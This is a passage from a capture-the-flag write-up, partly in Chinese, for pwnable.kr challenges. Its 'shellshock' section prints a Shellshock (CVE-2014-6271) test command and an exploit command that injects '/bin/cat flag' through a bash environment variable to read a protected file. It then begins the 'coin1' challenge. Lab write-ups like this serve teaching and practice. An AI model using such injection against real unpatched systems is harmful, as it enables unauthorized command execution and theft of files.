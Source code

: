 
## 0x010 shellshock

>Problem Description:  
>Mommy, there was a shocking news about bash.  
>I bet you already know, but lets just make it sure :)  
>Address:  
>ssh shellshock@pwnable.kr -p2222 (pw:guest)  

CVE-2014-6271 破壳漏洞利用, 先检验漏洞是否存在
```
$ env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
```
![](/assets/img/writeup/2017-08-13-pwnable-writeup/0x010-001.png)

构造一下利用
```
$ env x='() { :;}; /bin/cat flag' bash -c "./shellshock"
```

getflag~
![](/assets/img/writeup/2017-08-13-pwnable-writeup/0x010-002.png)


## 0x011 coin1

>Problem Description:  
>Mommy, I wanna play a game!  
>(if your network response time is too slow, try nc 0 9007 inside pwnable.kr server)  
>Address:  
>nc pwnable.kr 9007  

每次以 C 次尝试在 N 枚coin中找到次品, 胜利100次就能拿到flag